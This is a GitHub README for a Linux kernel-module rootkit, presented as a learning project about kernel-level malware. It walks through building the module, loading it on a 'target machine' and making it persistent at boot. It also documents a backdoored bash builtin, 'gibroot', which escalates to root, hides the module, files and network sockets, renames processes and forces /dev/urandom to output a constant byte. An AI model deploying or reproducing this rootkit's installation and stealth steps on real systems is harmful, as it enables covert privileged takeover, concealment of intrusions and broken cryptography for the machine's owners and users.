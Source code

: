 
# linux rootkit

this is a kernel module-based rootkit for linux that supports privelige escalation, compromising random number generation, file and directory hiding, and process injection.

this is a project to allow participants to better understand the inner workings of malware at the kernel level and to gain a deeper understanding of the constraints and possibilities of actions in the kernel space.


## Building and Installation

step 1: open up the Makefile and set KDIR to the path of the linux source tree. this should be configured identically to the target machine's kernel, and it must be configured with support for kprobes and ftrace(these are technically not necessary for privelige escalation or toggling the module's visibility, but we haven't incorporated a compile option for only those features yet).

```
KDIR = ~/learning/linux #replace with appropriate path
```
step 2: run the Makefile to compile the kernel module, and copy rootkit_module.ko over to the target machine
```
Make
```

step 3: copy over bash-4.3 and bdoor_common.h to the target machine, and compile Bash by running configure --with-bash-malloc=no and make (to have this work with different versions of Bash, go into bash-4.3/builtins, copy over gibroot.def to the other version's builtin folder, and change its Makefile.in to conform with https://stackoverflow.com/questions/10063417/how-do-i-add-an-internal-command-to-bash)
```
cd bash-4.3
./configure --with-bash-malloc=no
make
```

(extra) step 4: to make the rootkit persistant,  while root in the target machine, move rootkit_module.ko into the folder specified by /lib/modules/$(uname -r)/, and add the line "rootkit_module" to the bottom of /etc/modules. this make kmod load the module upon boot.
```
cp rootkit.ko /lib/modules/$(uname -r)/
echo "rootkit" >> /etc/modules
```


## Run
to load the module, while root run
```
insmod rootkit.ko
```
the module can also be removed with
```
rmmod rootkit.ko
```

now, as a regular user run the compiled bash executable. this will grant you access to the new gibroot builtin
```
cd bash-4.3
./bash
```

## Command Reference

to escalate shell privelige to root, use
```
gibroot root
```

to restore original shell priveliges, use

```
gibroot unroot
```
<br />

to hide the kernel module from userspace, use
```
gibroot hmod
```

to restore the kernel module's visibility, use
```
gibroot smod
```

<br />

to hide a file(s) or directory(s), use
```
gibroot hide <file> ...
```
to unhide files, use
```
gibroot show <file> ...
```

<br />

to look at what files are being hidden, use
```
cat /proc/hidden_files
```

<br />

to compromise /dev/urandom so it always writes 0x20, use
```
gibroot urand
```

<br />

to whitelist processes and users from file hiding, use
```
gibroot wadd <TYPE> <NAME/ID> ...
```
to remove an entry from the whitelist, use
```
gibroot wrem <TYPE> <NAME/ID> ...
```
to view the entries in the whitelist, use
```
cat /proc/whitelist
```
supported types for the whitelist are PROCNAME,PID,UID,GID

<br />

to change the name of your bash process to something else, use
```
gibroot newname <NAME>
```
names of up to 16 characters are allowed (max length of comm field in a task struct)

<br />

to hide open sockets from userspace, use
```
gibroot hport <TYPE> <STYPE> <PORT> ...
```
to unhide open sockets, use
```
gibroot sport <TYPE> <STYPE> <PORT> ...
```
to see the contents of the socket blacklist, use
```
cat /proc/sock_blist
```
supported types for the blacklist are LOCAL, SOURCE, and DEST

supported stypes for the blacklist are STREAM, DGRAM, RAW, RDM, SEQPACKET, DCCP, and PACKET

NOTE: I have experienced a (possibly erroneous) deadlock involving ehash_locks with port/socket hiding

